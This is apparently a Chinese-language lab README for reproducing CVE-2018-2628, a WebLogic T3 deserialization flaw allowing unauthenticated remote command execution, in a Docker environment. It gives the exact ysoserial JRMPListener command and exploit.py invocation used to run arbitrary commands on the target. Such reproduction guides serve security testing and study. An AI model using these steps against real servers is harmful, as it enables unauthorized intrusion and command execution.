 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过T3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![](1.png)
